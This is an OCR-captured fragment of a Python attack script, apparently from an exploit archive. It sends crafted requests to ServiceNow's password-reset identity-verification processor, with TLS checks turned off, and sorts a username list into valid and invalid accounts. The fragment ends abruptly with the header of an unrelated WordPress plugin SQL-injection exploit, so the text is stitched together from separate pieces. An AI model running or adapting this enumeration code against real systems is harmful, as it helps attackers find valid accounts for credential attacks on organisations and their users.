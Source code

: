                 data = {
                    "sysparm_processor": "PwdAjaxVerifyIdentity",
                    "sysparm_scope": "global",
                    "sysparm_want_session_messages": "true",
                    "sysparm_name":"verifyIdentity",
                    "sysparm_process_id":"c6b0c20667100200a5a0f3b457415ad5",
                    "sysparm_processor_id_0":"fb9b36b3bf220100710071a7bf07390b",
                    "sysparm_user_id_0":""+users.strip()+"",
                    "sysparm_identification_number":"1",
                    "sysparam_pwd_csrf_token":""+token+"",
                    "ni.nolog.x_referer":"ignore",
                    "x_referer":"$pwd_reset.do?sysparm_url=ss_default"
                    }

                payload_str = urllib.parse.urlencode(data, safe=":+")

            except requests.exceptions.Timeout:
                print ("[!] Connection to host timed out !")
                sys.exit(1)

            try:
                # s = requests.Session()
                # s.verify = False
                time.sleep(2)
                r = requests.post(url, headers=headers2, data=payload_str, timeout=20, verify=False, proxies=proxies)
                if "500" in r.text:
                    print (Fore.RED + f"[-] Invalid user: {users.strip()}" + Style.RESET_ALL)
                    f = open("enumeratedUserList.txt", "a+")
                    f.write(Fore.RED + f"[-] Invalid user: {users.strip()}\n" + Style.RESET_ALL)
                    f.close()
                elif "200" in r.text:
                    print (Fore.GREEN + f"[+] Valid user: {users.strip()}" + Style.RESET_ALL)
                    f = open("enumeratedUserList.txt", "a+")
                    f.write(Fore.GREEN + f"[+] Valid user: {users.strip()}\n" + Style.RESET_ALL)
                    f.close()
                else:
                    print (Fore.RED + f"[-] Invalid user: {users.strip()}" + Style.RESET_ALL)
                    f = open("enumeratedUserList.txt", "a+")
                    f.write(Fore.RED + f"[-] Invalid user: {users.strip()}\n" + Style.RESET_ALL)
                    f.close()
            except KeyboardInterrupt:
                sys.exit()
            except requests.exceptions.Timeout:
                print ("[!] Connection to host timed out !")
                sys.exit(1)
            except Exception as e:
                print (Fore.RED + f"Unable to connect to host" + Style.RESET_ALL)

if __name__ == "__main__":
    main ()
  # Exploit Title: WordPress Plugin WP User Frontend 3.5.25 - SQLi (Authenticated)
# Date 20.02.2022
# Exploit Author: Ron Jost (Hacker5preme)
# Vendor Homepage: https://wedevs.com/